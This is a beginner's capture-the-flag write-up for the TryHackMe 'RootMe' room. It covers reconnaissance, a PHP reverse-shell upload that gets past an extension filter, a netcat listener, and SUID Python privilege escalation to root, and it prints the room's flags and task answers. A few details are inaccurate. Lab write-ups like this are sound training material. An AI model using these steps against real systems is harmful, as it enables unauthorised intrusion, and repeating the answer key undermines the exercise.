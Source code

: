 # Day-10: TryHackMe Room (RootMe)

## Overview

Today, I completed the RootMe room on TryHackMe. This room is a beginner-friendly Capture The Flag (CTF) challenge that involves exploiting a vulnerable web application to gain root access.

## Key Learnings

1. **Bugcrowd**: An online platform that connects ethical hackers with organizations to identify and resolve security vulnerabilities.
2. **Directory Traversal**: A web security vulnerability that allows attackers to access restricted directories and execute commands outside of the web server's root directory.
3. **DNSLeakTest.com**: A tool to check whether your DNS queries are leaking out of your VPN tunnel.
4. **Scamalytics.com**: A website that provides information on the trustworthiness and risk level of IP addresses, useful for identifying potential scams and frauds.

## Steps and Commands 

### 1. Deploy the machine
 Refer to this repo for the [How to connect tryhackme to kali linux](https://github.com/Heartking-2324/Cybersecurity-90days_notes/tree/main/Day-07)
### 2. Reconnaissance
``` nmap -sV ip_addr ```
![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*mKRmhlvzEuvp-DVMiHJQRA.png)
```
ssh — service that enables secure connection between devices
http — a web server running Apache httpd 2.4.29
```
Gobuster 
``` gobuster dir -u <ip_addr> -w /root/Dekstop/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt ```

![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*lYpZXnvY6_Ll9p9t1J2MAg.png)

### 3. Getting a shell 
Connect via the ip_address and the the directory which we found in the gobuster 
``` Open web browser, type <ip_addr>/panel/ ```

To connect via the reverse shell connection to the website 
The online tool called the pentestmonkey Download it with this command 
``` wget https://github.com/pentestmonkey/php-reverse-shell ``` 
``` nano shell.php ``` 

![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*bBVrHSvg65nU3hx-wL8NKQ.png)

The change this we have to add our ip_address with the tun0 we can get this by command ``` ifconfig ``` 

![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*bBVrHSvg65nU3hx-wL8NKQ.png)

With brupsuit we find the extention of the php which can bypass the validation of the uploads we find the all the php extention available. 
```  .php3, .php4, .php5, .php7, .pthml, .pht. ```

This is trial and error now, we need to see which one will be accepted. We need to simply edit the extension. I have changed the extension to .php5 and it was accepted by the server.

Now we need to go to ip_addr/uploads/ and also start our netcat listener in the terminal. 

Where in my case php5 extention worked 
![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*X7lkSZU-VbhWANzdG9hplg.png)

How to start a netcat listener? open terminal and type nc -lvnp 1234 (the port number that was edited in your php reverse shell file).
``` nc -lvnp port ```

Now with the directory finding command in terminal we search for the user.txt
``` find / -type f -name user.txt 2> /dev/null ```

After that we just find the 
``` cat /var/www/user.txt ```
``` THM{y0u_g0t_a_sh3ll} ```

### 4. Privilege Escalation
``` find / -user root -perm /4000 ```
With this command we find a file with SUID permission that can be run as root. 
We need to look carefully into the output of the command to find which file can be exploited to gain root access.

``` /usr/bin/python ```
How to exploit it? Go to GTFOBins https://gtfobins.github.io/ and look for Python GTFO. We need this one :
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*UD3MWoyvik2WsVj7NWJdOQ.png)

``` python -c 'import os; os.execl("/bin/sh", "sh", "-p")' ```

We need to run the second part of the command here. Type whoami to get confirmation that we indeed are a root user now. 
![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*VN-9u5ml-FeWn0jgwdfh6Q.png)

To find the root.txt run this command in the terminal
```
 find / -type f -name root.txt 
 cat /root/root.txt
```
![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*CO1eLu6CbTgb1uUMhMBntQ.png)

``` THM{pr1v1l3g3_3sc4l4t10n} ```


## The all answer of room activity 
### Task2 
Scan the machine, how many ports are open?

``` 2 ```

What version of Apache is running?

``` 2.4.29 ```

What service is running on port 22?

``` ssh ```

What is the hidden directory?

``` /panel/ ```

### Task3

user.txt

``` THM{y0u_g0t_a_sh3ll} ```

### Task4 

Search for files with SUID permission, which file is weird?

``` /usr/bin/python ```

root.txt

``` THM{pr1v1l3g3_3sc4l4t10n} ```

## Conclusion

This room provided a solid understanding of basic web exploitation and privilege escalation techniques. The hands-on experience was invaluable for reinforcing the theoretical knowledge gained.
